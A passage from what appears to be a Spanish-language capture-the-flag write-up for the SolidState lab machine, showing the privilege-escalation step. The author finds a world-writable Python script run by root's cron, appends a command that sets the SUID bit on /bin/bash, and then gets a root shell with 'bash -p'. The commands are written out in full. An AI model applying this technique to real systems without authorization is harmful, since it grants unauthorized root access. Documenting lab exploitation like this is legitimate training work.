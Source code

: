 ```console
```
le damos permisos de ejecución y esperamos a que nos salga un nuevo proceso ejecutado

```console
${debian_chroot:+($debian_chroot)}mindy@solidstate:/tmp$ ./procmon.sh
./procmon.sh
> /usr/sbin/CRON -f
< /usr/sbin/CRON -f
> /usr/sbin/CRON -f
> /bin/sh -c python /opt/tmp.py
< /usr/sbin/CRON -f
< /bin/sh -c python /opt/tmp.py

```
depués de unos minutos visulizamos un proceso bastante intersante que ejecuta un script en python, si visualizamos los permisos vemos que el propietario es root 

${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ls -l /opt/tmp.py

-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py

ahora visualizare el script... y !BINGOO tenemos permisos de lectura escritura y ejecución con una funcion **os.system** donde podemos enviar nuestra consola y otorgar permisos SUID a la bash y asi escalar nuestro privilegio

${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat /opt/tmp.py

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ echo "os.system('chmod u+s /bin/bash')" >> /opt/tmp.py

guardando nuestra llamada al sistema del script en python esperare a que la tarea se vuelva a ejecutar y tener permisos SUID en la bash

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

os.system('chmod u+s /bin/bash')
```
después de esperar a que se ejecute logramos tener los privilegios en la bash , solo hace falta poner bash -p (-p de privilege) y listo, somos root y máquina completada :D!!
